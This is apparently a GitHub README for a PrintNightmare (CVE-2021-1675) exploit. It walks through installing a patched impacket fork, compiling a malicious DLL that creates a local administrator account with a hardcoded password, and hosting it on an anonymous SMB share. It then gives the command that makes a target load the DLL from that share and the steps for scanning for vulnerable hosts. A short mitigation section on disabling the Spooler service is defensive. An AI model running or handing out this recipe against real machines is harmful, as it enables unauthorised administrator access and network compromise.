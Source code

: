 # CVE-2021-1675

Borrowed from [cube0x0](https://twitter.com/cube0x0) impacket fork: https://github.com/cube0x0/CVE-2021-1675  

### Install

```
pip3 uninstall impacket
git clone --branch PrintNightmare https://github.com/LuemmelSec/impacket
cd impacket
python3 -m pip install .
apt install mingw-w64
```

### Build DLL (64 bit)
I used this version: https://github.com/newsoft/adduser  

You can use the evil32.dll or evil64.dll under ./DLL
Username: PWND  
Password: B@dPass123!

Or build your own:  
```
cd DLL  
cp Tchar.h /usr/x86_64-w64-mingw32/include/
cp Lmaccess.h /usr/x86_64-w64-mingw32/include/
cp Tchar.h /usr/i686-w64-mingw32/include
cp Lmaccess.h /usr/i686-w64-mingw32/include/
```

Edit the evil.c to your needs:  
- change username & password  
- change name of the local admin group -> language dependant  

Build the DLL  64 bit:  
```
x86_64-w64-mingw32-gcc -shared -oevil64.dll evil.c -lnetapi32
cp evil64.dll /tmp/
```

Build the DLL 32 bit:  
```
i686-w64-mingw32-gcc -shared -oevil32.dll evil.c -lnetapi32
cp evil32.dll /tmp/
```

### SMB configuration

#### Linux  

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf   ` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

Start SMB Service
```
service smbd start
```

#### Windows

But you can also go the Windows route.  
You may use the following scripts to make all needed changes according to the languages:  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_de.ps1  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_en.ps1  

Tested on Windows 10, but should work on all other Windows versions.  

### exploit.py

```
python3 exploit.py mcafeelab.local/lowpriv@10.55.0.1 '\\10.55.0.30\smb\evil64.dll'
```


### Scanning

We can use `rpcdump.py` from impacket to scan for vulnerable hosts, if it returns a value, it's vulnerable 

```
rpcdump.py @192.168.1.10 | grep MS-RPRN

Protocol: [MS-RPRN]: Print System Remote Protocol
```

### Mitigation

Disable Spooler service (might not be suitable on systems where local printing like PDF printers are needed - so test it).  
And please: NO FCKN DCs NEED THIS SERVICE!!!  

```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

Or Uninstall Print-Services

```powershell
Uninstall-WindowsFeature Print-Services
```

### Further reading / tools  
[Kevin Beaumont](https://twitter.com/GossiTheDog) gathered the most relevant facts and collected them here:  
https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c

[Marcello](https://twitter.com/byt3bl33d3r) build a tool to scan for vulnerable systems from linux without actually exploiting them:  
https://github.com/byt3bl33d3r/ItWasAllADream  

[Benjamin Delpy](https://twitter.com/gentilkiwi) integrated the attack in the newest version of [mimikatz](https://github.com/gentilkiwi/mimikatz).  
